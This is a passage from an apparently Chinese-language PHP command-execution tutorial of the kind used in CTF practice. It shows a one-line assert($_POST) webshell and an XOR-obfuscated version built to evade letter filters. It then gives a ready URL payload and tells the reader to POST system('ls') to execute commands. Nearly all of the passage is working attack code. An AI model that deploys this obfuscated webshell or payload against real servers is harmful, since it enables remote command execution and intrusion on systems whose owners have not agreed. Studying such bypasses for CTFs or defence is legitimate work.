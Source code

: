 ```php
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo "异或运算第一部分： ".$result1;
echo "<br>";
echo "异或运算第二部分： ".$result2;
```

如果其中有+号，会被识别为空格，此时将+变成url编码即可

```php
<?php
$a='assert';
$b='_POST';
$c=$$b;      //$c=$_POST
$a($c['_']); //assert($_POST['_']);
?>
```

替换为

```php
<?php
$_="!((%)("^"@[[@[\\"; # assert
$__="!+/(("^"~{`{|"; # _POST
$___=$$__;
$_($___['_']);
```

```php
?cmd=$_="!((%)("^"@[[@[\\";$__="!+/(("^"~{`{|";$___=$$__;$_($___['_']);
然后再在POST提交_=system('ls');即可
```

![image-20240316144116859](PHP命令执行.assets/image-20240316144116859.png)
